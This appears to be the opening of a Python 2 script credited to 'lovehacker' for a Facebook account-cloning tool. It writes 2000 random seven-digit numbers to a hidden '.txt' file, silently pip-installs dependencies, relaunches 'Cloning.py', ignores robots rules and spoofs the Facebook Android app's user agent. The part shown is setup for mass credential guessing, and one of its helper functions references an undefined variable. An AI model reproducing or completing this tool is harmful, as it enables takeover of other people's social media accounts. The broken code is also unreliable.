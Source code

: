 # Heart#!/usr/bin/python2
#coding=utf-8
#The Credit For This Code Goes To lovehacker
#If You Wanna Take Credits For This Code, Please Look Yourself Again...
#Reserved2020
import os,sys,time,datetime,random,hashlib,re,threading,json,urllib,cookielib,getpass
os.system('rm -rf .txt')
for n in range(2000):

    nmbr = random.randint(1111111, 9999999)
    
    sys.stdout = open('.txt', 'a')

    print(nmbr)

    sys.stdout.flush()
    
try:
    import requests
except ImportError:
    os.system('pip2 install requests')
    
try:
    import mechanize
except ImportError:
    os.system('pip2 install mechanize')
    time.sleep(1)
    os.system('python2 Cloning.py')

import os,sys,time,datetime,random,hashlib,re,threading,json,urllib,cookielib,requests,mechanize
from multiprocessing.pool import ThreadPool
from requests.exceptions import ConnectionError
from mechanize import Browser


reload(sys)
sys.setdefaultencoding('utf8')
br = mechanize.Browser()
br.set_handle_robots(False)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(),max_time=1)
br.addheaders = [('User-Agent', 'Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16')]
br.addheaders = [('user-agent','Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506) [FBAN/FB4A;FBAV/106.0.0.26.68;FBBV/45904160;FBDM/{density=3.0,width=1080,height=1920};FBLC/it_IT;FBRV/45904160;FBCR/PosteMobile;FBMF/asus;FBBD/asus;FBPN/com.facebook.katana;FBDV/ASUS_Z00AD;FBSV/5.0;FBOP/1;FBCA/x86:armeabi-v7a;]')]

def keluar():
	print 'God by Frends '
	os.sys.exit()

def acak(b):
    w = 'ahtdzjc'
    d = ''
    for i in x:
        d += '!'+w[random.randint(0,len(w)-1)]+i
    return cetak(d)
